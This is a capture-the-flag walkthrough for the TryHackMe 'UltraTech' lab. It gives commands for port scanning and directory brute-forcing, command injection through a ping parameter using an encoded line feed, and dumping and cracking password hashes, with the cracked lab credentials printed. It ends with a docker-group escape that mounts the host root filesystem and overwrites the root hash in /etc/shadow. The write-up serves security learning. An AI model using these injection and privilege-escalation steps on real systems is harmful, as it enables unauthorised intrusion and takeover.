

---
---

# THM - UltraTech

NMAP
```bash
nmap 10.10.200.110 -p- -T5
```


```bash
nmap 10.10.200.110 -p 31331 -A
```


- Directory bruteforcing:
```bash
gobuster dir -u http://10.10.200.110:8081 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```


```bash
gobuster dir -u http://10.10.200.110:31331 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```


/robots.txt


/utech_sitemap.txt


/partners.html


Got a login page

- Look at traffic in Burp
Looking at  `http://10.10.200.110:31331/partners.html`

The site constantly pings to see if the server is online


- Changing the parameters of the GET request we can get RCE

[URL encoding cheatsheet](https://www.eso.org/~ndelmott/url_encode.html)

- Normal space is url encoded as **%20**

- A **line feed** (0x0A) is url encoded as **%0A**
A line feed means moving one line forward. The code is **\n**

- You need to use a line feed character (**\n**) URL encoded because a normal space doesn't work

```bash
GET /ping?ip=10.10.200.110%0Als

```


```bash
GET /ping?ip=10.10.200.110%0Acat%20utech.db.sqlite

```


(ignore the M before the names)

Found hashes:

**r00t : f357a0c52799563c7c7b76c1e7543a32**

**admin : 0d0ea5111e3c1def594c1684e3b9be84**

```bash
hash-identifier

```


- Crack with hashcat
```bash
hashcat -m 0 -a 0 hashes /usr/share/wordlists/rockyou.txt

```


- Credentials:
**r00t : n100906**

**admin : mrsheafy**

- SSH with r00t


- We can see we are in the docker group

- **<u>Escape the container:</u>**

```bash
docker images

```


- **<u>In Practise:</u>**

- Check gtfobins <https://gtfobins.github.io/gtfobins/docker/> for the command:


- If we run this command we'll get an error:



- So we need to list the available images:

```bash
docker ps -a

```


- Change the image name to **bash**

**Option 1 - command:**

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh

What this command does is, it creates a new container and mounts the entire ultratech-prod filesystem / to this container

```


**Option 2 - Command:**

```bash
docker run -v /:/mnt -it bash
```
What this command does is similar to Option 1, it creates a new container and mounts the entire ultratech-prod filesystem **/**. But it mounts it to **/mnt** on the container


- **We are root (in the container)**
- We can now read all the root files

- <u>To get root on the host machine (using Option 1):</u>

- On Kali - Make a MD5 hash:

```bash
mkpasswd -m md5 pass123

```


- On the target - in the container (because we're root now)
```bash
vi /etc/shadow

```
Press **i** (for insert)

Remove the hash of the root user (second field) and replace with the hash you made


```bash
Press ESC

Press :wq

ENTER

```
- exit out of the container
```bash
exit

```
```bash
su root
```
Enter password you made


